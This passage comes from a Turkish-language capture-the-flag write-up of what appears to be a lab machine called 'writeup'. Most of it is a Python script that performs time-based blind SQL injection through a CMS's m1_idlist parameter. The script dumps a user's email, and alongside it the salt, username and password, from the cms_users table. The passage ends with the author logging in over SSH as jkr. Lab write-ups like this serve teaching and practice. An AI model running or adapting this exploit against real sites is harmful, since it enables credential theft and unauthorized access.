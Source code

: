 ```
    output += '\n[+] Username found: ' + db_name
    flag = True
    print('[+] Username found: ' + db_name)

def dump_email():
    global flag, email, output
    ord_email = ""
    ord_email_temp = ""
    while flag:
        flag = False
        for i in range(len(dictionary)):
            temp_email = email + dictionary[i]
            ord_email_temp = ord_email + format(ord(dictionary[i]), 'x')
            payload = (
                "a,b,1,5))+and+(select+sleep(" + str(TIME) +
                ")+from+cms_users+where+email+like+0x" +
                ord_email_temp + "25+and+user_id+like+0x31)+--+"
            )
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            email = temp_email
            ord_email = ord_email_temp
    output += '\n[+] Email found: ' + email
    flag = True
    print('[+] Email found: ' + email)

# SQL Injection adımları
dump_salt()
dump_username()
dump_email()
dump_password()

if options.cracking:
    print(colored("[*] Now try to crack password", "yellow"))
    crack_password()

beautify_print()
```

![Pasted image 20250204201727.png](/img/user/resimler/Pasted%20image%2020250204201727.png)

### SSH as jkr
Parola ve kullanıcı adı ile writeup'a ssh ile bağlanabiliyorum:

![Pasted image 20250204201841.png](/img/user/resimler/Pasted%20image%2020250204201841.png)
